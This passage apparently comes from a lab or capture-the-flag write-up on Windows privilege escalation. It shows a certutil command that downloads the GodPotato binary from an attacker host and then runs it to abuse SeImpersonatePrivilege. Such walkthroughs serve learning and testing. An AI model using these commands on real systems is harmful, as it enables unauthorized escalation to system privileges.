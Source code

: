 We have the **SeImpersonatePrivilege** enabled.

Lets leverage this using the **godpotato.exe**

```bash
certutil -urlcache -split -f "http://10.10.14.87:9000/gp.exe"
```

![image.png](/assets/images/Breach_VL/image%2030.png)

Executing this binary.

```powershell
.\gp.exe -cmd "whoami"
```

![image.png](/assets/images/Breach_VL/image%2031.png)
